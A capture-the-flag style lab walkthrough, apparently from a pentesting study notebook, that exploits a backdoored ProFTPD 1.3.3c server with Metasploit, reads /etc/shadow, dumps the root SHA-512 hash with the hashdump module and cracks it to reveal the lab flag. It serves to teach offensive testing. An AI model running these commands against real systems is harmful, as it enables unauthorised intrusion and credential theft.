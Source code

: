 # 🔬Hashes Dumping

## Lab 1

>  🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
>  - Target IP: `192.75.64.3`
>  - **Password Hashes** dumping
>  - `/usr/share/metasploit-framework/data/wordlists/unix_users.txt`

### Enumeration

```bash
ip -br -c a
	192.75.64.2/24
```

```bash
nmap -sV 192.75.64.3
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
MAC Address: 02:42:C0:4B:40:03 (Unknown)
Service Info: OS: Unix
```

```bash
searchsploit ProFTPD 1.3.3
```

![searchsploit ProFTPD 1.3.3](.gitbook/assets/image-20230323104830486.png)

### Exploitation

```bash
service postgresql start && msfconsole -q
```

- Postgresql is started to store all `metasploit` loot and sensitive information from the target machine - [Metasploit - PostgreSQL Workflows](https://docs.metasploit.com/docs/pentesting/metasploit-guide-postgresql.html)

```bash
setg RHOSTS 192.75.64.3
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
run
```

```bash
/bin/bash -i
```

![Metasploit proftpd_133c_backdoor](.gitbook/assets/image-20230323105525516.png)

- Upgrade the sessions to a `meterpreter` session

```bash
# background the session with CTRL+Z
sessions -u 1
sessions 2
```

![](.gitbook/assets/image-20230323105845671.png)

### Hashes Dumping

```bash
cat /etc/shadow
```

![cat /etc/shadow](.gitbook/assets/image-20230323105952352.png)

> 📌 `root`:`$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.`

- Gather Linux Password hashes with `Metasploit`

```bash
# background the session with CTRL+Z
search hashdump
use post/linux/gather/hashdump
set SESSION 2
run
```

```bash
[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20230323100234_default_192.75.64.3_linux.hashes_660271.txt
```

- The *unshadowed password file* is a file containing the format hashed password, ready to be cracked.

### Crack the Hash

```bash
search crack
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

![Metasploit crack_linux](.gitbook/assets/image-20230323110756857.png)



<details>
<summary>Reveal Flag - "root" password is:  🚩</summary>



`password`

![](.gitbook/assets/image-20230323110859459.png)

</details>